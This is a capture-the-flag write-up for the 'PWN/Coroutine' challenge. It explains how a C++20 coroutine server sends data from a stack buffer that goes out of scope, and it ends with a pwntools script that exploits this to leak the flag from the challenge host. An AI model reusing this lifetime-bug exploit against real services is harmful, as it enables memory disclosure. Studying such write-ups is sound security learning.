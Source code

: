 # PWN/Coroutine

## Description

C++20 introduced coroutines, can they be used safely?
`nc coroutine.chal.idek.team 1337`


## Coroutine
This challenge is on C++ coroutines that are introduced in C++ 20. I suggest to read up on the [documentation](https://en.cppreference.com/w/cpp/language/coroutines) and get familiarize with coroutines before reading further.

In any case, here are the important points:
1. Coroutines are function that can be suspended and resume later.
2. Coroutines are stackless, obviously? cause the stack frame will be erase by other functions.
3. Information about the state of the coroutine is stored in a coroutine handler. I.E. local variables, parameters. Heap allocated local variables wtf -.-.
4. Coroutines are functions that contains the co_await, co_yield and co_return expression or implements `co_await` operator.
5. If we look at the disassembly of the compiled binary, any coroutine will have 3 functions under the same function symbol, which I am guessing is for `await_ready`, `await_resume` and `await_suspend` respectively.
6. Coroutines differ from threads: a program with coroutines execute sequentially and support multiple concurrent functions (by suspending and resuming coroutine functions), while a program spawning threads executes multiple parallel threads. In other words, a program with coroutines schedule its own execution of coroutines.

## Code analysis
Thankfully, source code is given. I will cover only the important functions, so lets drive right into it.

![image](https://user-images.githubusercontent.com/24536991/212623718-11bfd200-9eac-41ef-8867-2fd8eaea41ca.png)

The main function is responsible for setting up everything. It first creates the `io_context` struct on the stack then pass the `io_context` to `server` function.

### io_context

![image](https://user-images.githubusercontent.com/24536991/212623823-807666e7-9e8e-487f-ac7c-57b9e4f14e87.png)

In the `io_context` struct, there are 2 `vectors` (`reads_` and `writes_`) which holds our suspended coroutines. 

![image](https://user-images.githubusercontent.com/24536991/212624211-8f25227d-a8b6-42bc-8441-45f5988105a0.png)

In the `run_until_done` function, it calls `load_flag`, which loads the flag into a new stack frame, then loops through `reads_` and `writes_` that are ready for IO and resume each coroutine.

It also contains some helper functions such as `add_write`, `add_read` and `cancel` to help modify the `reads_` and `writes_` coroutine vector. `io_context` is the 'scheduler' for the program.

### client_loop
In the `server` function, it initialize the sockets for the connection and listens for connections. It then calls `client_loop`, which is the main part of this challenge. 

![image](https://user-images.githubusercontent.com/24536991/212624568-6adccd8f-d96f-4fe4-8bd9-4a53c1c0d96d.png)

Here we can see that it calls `RecvAsync` to receive input from us then calls `SendAllAsyncNewline` to echo it back to us. Hmmmm, why is the way receive and send being called differently? 

### RecvAsync & SendAsync
Lets take a look at the `RecvAsync` class first. 

![image](https://user-images.githubusercontent.com/24536991/212624774-90ed7760-4d11-4486-85f9-165c61dd2d59.png)

The constructor of `RecvAsync` declared a co_await operator, which will make it a coroutine. Here we see 3 functions (`await_ready`, `await_suspend`, `await_resume`). `await_ready` is the first function to be called when co_await `RecvAsync` is called. If `await_ready` returns false, it will call `await_suspend`, else it will call `await_resume`. `await_resume` is also called when the coroutine is resumed externally, by `io_context` for example. 

`await_ready` tries to recv from the socket, if successful, it will return true, else (no data have been entered through the proxy) it returns false and calls `await_suspend` which will store the coroutine handler to `io_context` (which then resumes the coroutine via `run_until_done`). In the challenge, `await_suspend` will always be called since it is very likely for the `recv` at `await_ready` to return -1 (it is unlikely for proxy.py to win the race since we are from a remote connection).

However, the same cannot be said for `SendAsync`. `SendAsync` has roughly the same code as `RecvAsync`, just switching `recv` to `send`. Here, `await_suspend` in `SendAsync` is unlikely to be called since `send` is likely to be successful, unless ....., `proxy.py`'s receive buffer is full, which we have control over.

### SendAllAsyncNewline & SendAllAsync

![image](https://user-images.githubusercontent.com/24536991/212625343-137feb11-810a-4b7b-becc-6dbd2beaec64.png)

Note that `SendAsync` is being called differently from `client_loop`. It first calls `SendAllAsyncNewline` which does not seems like a coroutine (see point 4 above), but it calls `SendAllAsync` which is a coroutine. It also allocates a `buffer2` which is on the stack, copy the content from `RecvAsync` to `buffer2`, and pass `buffer2` to `SendAllAsync` then to `SendAsync`. `buffer2` becomes invalid once `SendAllAsyncNewline` finish execution.  

What this means is that, `SendAsync` sends data from the stack and `RecvAsync` recv data to the heap (which is then copy to the stack in `SendAllAsyncNewLine`. Lets verify this is a debugger. 

![recvasync](https://user-images.githubusercontent.com/24536991/212626020-3dd3862f-45de-4d2b-a7dd-e4c293c1cb3c.png)
Register Content at `RecvAsync` `await_ready`

![sendallasyncline](https://user-images.githubusercontent.com/24536991/212626299-9fbf0762-5939-4507-bd7e-5310f1435a98.png)

Register Content at `SendAllAsyncNewline`

![sendasync](https://user-images.githubusercontent.com/24536991/212626320-64bbdc7c-d196-45b5-ae01-c6d21926f848.png)

Register Content at `SendAsync` `await_ready`


On top of this, since `SendAllAsync` is called not as a coroutine in `SendAllAsyncNewline`, `SendAllAsyncNewline` ends up calling the `await_ready` function of `SendAllAsync`. This means `SendAllAsyncNewLine` could return to `client_loop` before the `send` was completed, through suspending `SendAsync`. This allows the next `RecvAsync` to be processed before the previous `send` finishes, and multiple send could be on hold at the same time if the `proxy.py` receive buffer is full. In addition, the buffer for `SendAsync` becomes invalid since `SendAllAsyncNewline` would have finished execution.  

### Exploit

Now it become obvious, since data is sent from the stack, which is always at the same address, there is a possibility of data overwriting. We can make use of `RecvAsync` to set the buffer size of the current `SendAsync` (by sending a N length string from `proxy.py`), and make `SendAsync` suspend so we can call `RecvAsync` again. We repeat this again, to queue at least 2 `SendAsync` into the `writes_` vector in the `io_context`, there after we drain the `writes_` vector twice (by receiving data from `proxy.py`, thereby making send free again), the first time to print garbage since `RecvAsync` would have cleared the flag in the stack, the second time to call `load_flag`, to load the flag into the stack and print out the flag (which coincides with `buffer2` in send `SendAllAsyncNewline`).

## Exploit Script

```
from pwn import *
import time
#context.log_level = 'debug'
p = remote("coroutine.chal.idek.team", 1337)

def conn():
    p.recvuntil(b"> ")
    p.sendline(b"1")

def set_rcv(size):
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

def send_str(string):
    p.recvuntil(b"> ")
    p.sendline(b"4")
    p.recvuntil(b"> ")
    p.sendline(string)

def recv(size):
    #p.recvuntil(b"> ")
    p.sendline(b"5")
    #p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

set_rcv(8)
conn()

for i in range(8):
    send_str(b"A" * 512)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
p.interactive()

```
